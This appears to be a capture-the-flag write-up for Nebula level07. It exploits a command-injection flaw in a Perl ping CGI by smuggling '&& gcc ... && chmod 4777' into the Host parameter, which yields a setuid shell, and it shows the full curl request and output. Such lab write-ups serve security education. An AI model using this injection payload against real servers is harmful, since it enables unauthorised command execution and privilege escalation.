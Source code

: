 ```perl
ping(param("Host"));
```

This script has a very obvious command injection problem in the ping command. It also looks like something that should be served by a web server. In the `flag07` directory one can see a `thttpd.conf` file which contains the port of the webserver serving this script on.

```bash
level07@nebula:/home/flag07$ grep port thttpd.conf
# Specifies an alternate port number to listen on.
port=7007
# all hostnames supported on the local machine. See thttpd(8) for details.
```

Exploiting the vulnerability simply meant that we have to inject commands into the `Host` parameter. I normally use python's urllib to ensure that fields are properly url encoded etc.

So, to solve level07:

```bash
~ » curl -v "http://192.168.217.239:7007/index.cgi?$(python -c 'import urllib; print urllib.urlencode({ "Host" : "127.0.0.1 && gcc /var/tmp/shell.c -o /var/tmp/flag07 && chmod 4777 /var/tmp/flag07" })')"
* Hostname was NOT found in DNS cache
*   Trying 192.168.217.239...
* Connected to 192.168.217.239 (192.168.217.239) port 7007 (#0)
> GET /index.cgi?Host=127.0.0.1+%26%26+gcc+%2Fvar%2Ftmp%2Fshell.c+-o+%2Fvar%2Ftmp%2Fflag07+%26%26+chmod+4777+%2Fvar%2Ftmp%2Fflag07 HTTP/1.1
> User-Agent: curl/7.37.1
> Host: 192.168.217.239:7007
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-type: text/html
<
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.011 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.023 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.022 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.011/0.018/0.023/0.007 ms
* Closing connection 0
</pre></body></html>
```

And finally back on the NebulaVM after this curl from my host:

```bash
level07@nebula:/home/flag07$ /var/tmp/flag07
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

